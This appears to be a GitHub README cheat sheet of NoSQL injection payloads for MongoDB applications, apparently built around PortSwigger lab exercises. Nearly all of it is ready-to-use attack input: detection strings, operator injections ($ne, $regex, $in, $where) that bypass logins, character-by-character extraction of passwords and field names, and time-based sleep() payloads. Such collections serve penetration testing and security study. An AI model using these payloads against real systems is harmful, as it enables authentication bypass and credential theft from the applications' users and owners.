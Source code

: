 ### Table of Contents

1. [Basic Operator Difference Between SQLi and NoSQLi](#basic-operator-difference-between-sqli-and-nosqli)
2. [Detecting NoSQLi Vulnerability](#detecting-nosqli-vulnerability)
3. [NoSQL Operator Injection](#nosql-operator-injection)
4. [Submitting Query Operators](#submitting-query-operators)
5. [MongoDB Login Bypass](#mongodb-login-bypass)
6. [MongoDB Data Retrieving](#mongodb-data-retrieving)
7. [Operator Injection to Retrieve Unknown Data](#operator-injection-to-retrieve-unknown-data)
8. [Time-Based NoSQL Injection](#time-based-nosql-injection)

---

### Basic Operator Difference Between SQLi and NoSQLi

- **`or`** → **`||`**
- **`and`** → **`&&`**
- **`-- -`** → **`%00`**

---

### Detecting NoSQLi Vulnerability

#### For MongoDB Detection:
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
#### Causing Syntax Error in MongoDB:
```
'
```
#### Escaping the Syntax Error in MongoDB:
```
\'
```
Or we can try:
```
%00
```
#### Injecting in JSON Format:
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

#### Others:
```
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
{"$where": "sleep(5000)"}
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

---

### Confirming Conditional Behavior

```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'||'1'=='1
'%00
```

**Example with Explanation:**

1. ```category=Gifts' && 0 && 'x``` → This will return no items like ```category=Gifts' and 1=0-- -``` in SQL injection.
2. ```category=Gifts' && 1 && 'x``` → This will return Gift items like ```category=Gifts' and 1=1-- -``` in SQL injection.
3. ```category=Gifts' || 1 || 'x``` → This will return all the items like ```category=Gifts' or 1=1-- -``` in SQL injection.
4. Same as 3.

---

### NoSQL Operator Injection

- **`$where`** - Matches documents that satisfy a JavaScript expression.
- **`$ne`** - Matches all values that are not equal to a specified value.
- **`$in`** - Matches all of the values specified in an array.
- **`$regex`** - Selects documents where values match a specified regular expression.

For more details: [Portswigger](https://portswigger.net/web-security/nosql-injection#nosql-operator-injection)

---

### Submitting Query Operators

In **JSON** messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.

For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`.

If this doesn't work, you can try the following:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

---

### MongoDB Login Bypass

- `{"$regex":"wien.*"}` → For username
- `{"$ne":"Invalid"}` → For password
- `{"$in":["admin","administrator","superadmin"]}` → For brute force

![MongoDB Login Bypass Screenshot](https://github.com/user-attachments/assets/18902009-c2d8-4162-b5d8-7ebb221fd49e)

In some cases we might need to use `\`.

![Screenshot From 2025-02-13 13-24-35](https://github.com/user-attachments/assets/05947457-4d43-48a4-84ba-a4b069e7bc04)

**Note: We need to input at least one valid credential to make a valid query.**

If this doesn't work, you can try the following:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

---

### MongoDB Data Retrieving

**Extracting Password:**
```
' && this.password.length < 50%00 → For extracting password length in URL
' && this.password[0] == 'a'%00 → For extracting password in URL
{"username":"admin","password":{"$regex":"^a*"}} → For extracting password via operator
```

---

### Identifying Field Names

```
' && this.anything && 'a'=='b → Confirming if there is a field name
' && this.username!=' → Identifying field names [Note: If there is a username field exists, it will respond with a different type of message]
' && this['u'] && 'a'=='b → Retrieving field name character by character
' && this.u.s.e.r.n.a.m['e'] && 'a'=='b
```

---

### Operator Injection to Retrieve Unknown Data

```
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"}  → To generate a server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  → To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}}  → To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}
```

**Key Details:**
- `Object.keys(this)[0].match('^.{0}.*')` → To identify data size (e.g., Password).
- `Object.keys(this)[0].match('^.{0}0.*')` → To fetch the data.
- `this.forgotpwd.match('^.{0}.*')` → To fetch specific key-value data size.
- `this.forgotpwd.match('^.{0}0.*')` → To fetch specific key-value data.

1st `0` means key number.  
2nd `0` means data size.  
3rd `0` means data character.  
For brute forcing, select only 2nd and 3rd `0`.

---

### Time-Based NoSQL Injection

```
{
  "username": "admin",
  "password": { "$where": "sleep(5000)" }
}
```

**Data Retrieve**

- **Initial Request:**
```
{
  "product": "Tablet",
  "price": 350,
}
```

- **Malformed Request:**
```
{
  "product": { "$eq": "Tablet" },
  "price": { "$where": "if (this.price > 300) { sleep(5000); return true; } return false;" }
}
```

---
